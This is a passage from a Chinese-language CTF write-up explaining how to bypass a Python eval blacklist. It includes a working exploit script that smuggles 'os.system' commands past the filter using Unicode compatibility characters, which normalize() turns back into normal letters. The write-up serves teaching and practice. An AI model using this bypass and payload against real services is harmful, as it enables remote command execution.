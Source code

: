 很明显需要绕过这个waf来rce，没有被过滤的有单双引号和数字，所以我们可以用八进制，比如这样

```python
eval('\150\145\154\160\50\51\40')
# eval(help())
```

但是这里用8进制并不可以被`eval`执行，因为本地是这样的

![image-20211213115540592](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213115540592.png)

但是通过`input`传过去之后会被转义，再加一个反斜杠

![image-20211213115722152](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213115722152.png)

那肯定会想再加反斜杠呗？

![image-20211213120106808](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213120106808.png)

本来我们的`\`反斜杠是用来做8进制的引导字符的，结果这样处理会变成纯纯的字符串，越描越黑了

显然这样是执行不了命令的（也可能是我知道的太少了，欢迎各位师傅分享），我们这里用unicode的小trick

做题多一点的师傅应该就能明白啥意思了，一个常考的点是注册`ªdmin`的账户来伪造`admin`，这里也是同理；代码中有一个缺陷：先过滤黑名单字符再进行`normalize()`，这会导致特殊的unicode字符会先顺利通过过滤，再被`normalize()`转为正常字符，最终命令执行

这里是个exp

```python
#!/usr/bin/env python3
letters = ['ª', 'ᵇ', 'ᶜ', 'ᵈ', 'ᵉ', 'ᶠ', 'ᵍ', 'ʰ', 'ⁱ', 'ʲ', 'ᵏ', 'ˡ',
           'ᵐ', 'ⁿ', 'º', 'ᵖ', 'ｑ', 'ʳ', 'ˢ', 'ₜ', 'ᵘ', 'ᵛ', 'ʷ', 'ˣ', 'ʸ', 'ᶻ']

# payload = "print(__import__('os').system('ls'))"
payload = "print(__import__('os').system('cat flag.txt'))"
exploit = "ᵉᵛªˡ(''"

for char in payload:
    exploit += f"+ᶜʰʳ({ord(char)})"

exploit += ")"

print(exploit)
# ᵉᵛªˡ(''+ᶜʰʳ(112)+ᶜʰʳ(114)+ᶜʰʳ(105)+ᶜʰʳ(110)+ᶜʰʳ(116)+ᶜʰʳ(40)+ᶜʰʳ(95)+ᶜʰʳ(95)+ᶜʰʳ(105)+ᶜʰʳ(109)+ᶜʰʳ(112)+ᶜʰʳ(111)+ᶜʰʳ(114)+ᶜʰʳ(116)+ᶜʰʳ(95)+ᶜʰʳ(95)+ᶜʰʳ(40)+ᶜʰʳ(39)+ᶜʰʳ(111)+ᶜʰʳ(115)+ᶜʰʳ(39)+ᶜʰʳ(41)+ᶜʰʳ(46)+ᶜʰʳ(115)+ᶜʰʳ(121)+ᶜʰʳ(115)+ᶜʰʳ(116)+ᶜʰʳ(101)+ᶜʰʳ(109)+ᶜʰʳ(40)+ᶜʰʳ(39)+ᶜʰʳ(99)+ᶜʰʳ(97)+ᶜʰʳ(116)+ᶜʰʳ(32)+ᶜʰʳ(102)+ᶜʰʳ(108)+ᶜʰʳ(97)+ᶜʰʳ(103)+ᶜʰʳ(46)+ᶜʰʳ(116)+ᶜʰʳ(120)+ᶜʰʳ(116)+ᶜʰʳ(39)+ᶜʰʳ(41)+ᶜʰʳ(41))
```

更多的相似unicode可以参考这个网站->https://www.compart.com/en/unicode

```
# 这样的也可以捏
ｐｒｉｎｔ(ｏｐｅｎ(ｃｈｒ(102) + ｃｈｒ(108) + ｃｈｒ(97) + ｃｈｒ(103) + ｃｈｒ(46) + ｃｈｒ(116) + ｃｈｒ(120) + ｃｈｒ(116)).ｒｅａｄ(115))
```

参考：[WAF Bypassing with Unicode Compatibility](https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html)

------

~~少了三道js的题，我的，下次一定！~~

现在少2道了

另外steghide-as-a-service这道题感谢师傅的帮助（我自己卡到一个很蠢的地方了

最近有点摆烂，属于是春困秋乏里面的冬眠了，睡不醒的冬三月啊啊啊啊啊啊

北京冬至的时候日出日落之间只有9个半小时不到，谁听了不想睡死过去（

